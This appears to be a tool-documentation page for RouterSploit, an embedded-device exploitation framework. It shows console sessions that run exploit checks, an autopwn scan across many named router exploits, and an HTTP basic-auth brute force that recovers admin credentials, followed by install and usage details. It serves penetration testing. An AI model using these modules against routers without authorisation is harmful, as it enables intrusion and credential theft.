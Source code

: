 # 🌐 routersploit

### RouterSploit Usage Examples <a href="#routersploit-usage-examples" id="routersploit-usage-examples"></a>

RouterSploit has a number of exploits for different router models and they have the ability to check whether the remote target is vulnerable before sending off an exploit:

```
rsf > use exploits/multi/misfortune_cookie
rsf (Misfortune Cookie) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   port       80                   Target port
   target                          Target address e.g. http://192.168.1.1


rsf (Misfortune Cookie) > set target 192.168.0.2
[+] {'target': '192.168.0.2'}
rsf (Misfortune Cookie) > check
[-] Target is not vulnerable
rsf (Misfortune Cookie) >
```

If stealth is not a requirement, you can attempt to use the **autopwn** scanner module to see if any vulnerabilities can be found:

```
rsf > use scanners/autopwn
rsf (AutoPwn) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   port       80                   Target port
   target                          Target IP address e.g. 192.168.1.1


rsf (AutoPwn) > set target 192.168.0.2
[+] {'target': '192.168.0.2'}
rsf (AutoPwn) > run
[*] Running module...
[-] exploits/fortinet/fortigate_os_backdoor is not vulnerable
[-] exploits/belkin/n150_path_traversal is not vulnerable
[-] exploits/belkin/g_n150_password_disclosure is not vulnerable
[-] exploits/belkin/n750_rce is not vulnerable
[-] exploits/belkin/g_plus_info_disclosure is not vulnerable
[-] exploits/asus/infosvr_backdoor_rce is not vulnerable
[-] exploits/asus/rt_n16_password_disclosure is not vulnerable
[-] exploits/2wire/gateway_auth_bypass is not vulnerable
[-] exploits/technicolor/tc7200_password_disclosure is not vulnerable
[-] exploits/netgear/multi_rce is not vulnerable
[-] exploits/netgear/n300_auth_bypass is not vulnerable
[-] exploits/netgear/prosafe_rce is not vulnerable
[-] exploits/asmax/ar_1004g_password_disclosure is not vulnerable
[-] exploits/asmax/ar_804_gu_rce is not vulnerable
[-] exploits/linksys/wap54gv3_rce is not vulnerable
[-] exploits/linksys/1500_2500_rce is not vulnerable
[-] exploits/multi/misfortune_cookie is not vulnerable
[-] exploits/cisco/ucs_manager_rce is not vulnerable
[-] exploits/dlink/dsl_2750b_info_disclosure is not vulnerable
[-] exploits/dlink/dir_645_password_disclosure is not vulnerable
[-] exploits/dlink/dir_300_600_615_info_disclosure is not vulnerable
[-] exploits/dlink/dir_300_320_615_auth_bypass is not vulnerable
[-] exploits/dlink/dwr_932_info_disclosure is not vulnerable
[-] exploits/dlink/dns_320l_327l_rce is not vulnerable
[-] exploits/dlink/dvg_n5402sp_path_traversal is not vulnerable
[-] exploits/dlink/dir_300_600_rce is not vulnerable
[-] exploits/juniper/screenos_backdoor is not vulnerable
[-] exploits/comtrend/ct_5361t_password_disclosure is not vulnerable
[-] Device is not vulnerable to any exploits!

rsf (AutoPwn) >
```

If all else fails, RouterSploit has a number of **creds** modules that can brute force various services, including HTTP, SSH, and Telnet:

```
rsf > use creds/http_basic_bruteforce
rsf (HTTP Basic Bruteforce) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   port       80                   Target port
   target                          Target IP address or file with target:port (file://)


Module options:

   Name          Current settings                                                        Description
   ----          ----------------                                                        -----------
   path          /                                                                       URL Path
   usernames     admin                                                                   Username or file with usernames (file://)
   passwords     file:///usr/share/routersploit/routersploit/wordlists/passwords.txt     Password or file with passwords (file://)
   threads       8                                                                       Numbers of threads
   verbosity     yes                                                                     Display authentication attempts


rsf (HTTP Basic Bruteforce) > set target 192.168.0.2
[+] {'target': '192.168.0.2'}
rsf (HTTP Basic Bruteforce) > set passwords file:///usr/share/wordlists/nmap.lst
[+] {'passwords': 'file:///usr/share/wordlists/nmap.lst'}
rsf (HTTP Basic Bruteforce) > set verbosity no
[+] {'verbosity': 'no'}
rsf (HTTP Basic Bruteforce) > run
[*] Running module...
[*] Elapsed time:  1.97385120392 seconds
[+] Credentials found!

   Target          Port     Login     Password
   ------          ----     -----     --------
   192.168.0.2     80       admin     password

rsf (HTTP Basic Bruteforce) >
```

***

\


### Packages and Binaries:

#### routersploit <a href="#routersploit" id="routersploit"></a>

This package contains an open-source exploitation framework dedicated to embedded devices. It consists of various modules that aids penetration testing operations:

* exploits - modules that take advantage of identified vulnerabilities.
* creds - modules designed to test credentials against network services.
* scanners - modules that check if target is vulnerable to any exploit.
* payloads - modules that are responsible for generating payloads for various architectures and injection points.
* generic - modules that perform generic attacks.

**Installed size:** `2.14 MB`\
**How to install:** `sudo apt install routersploit`

<details>

<summary>Dependencies:</summary>

* python3
* python3-future
* python3-paramiko
* python3-pysnmp4
* python3-requests

</details>

**routersploit**

```
:~# routersploit -h
/usr/bin/routersploit -m <module> -s "<option> <value>"
```

***

**rsf.py**

```
:~# rsf.py -h
/usr/bin/rsf.py -m <module> -s "<option> <value>"
```

***

Updated on: 2022-Aug-05\


***
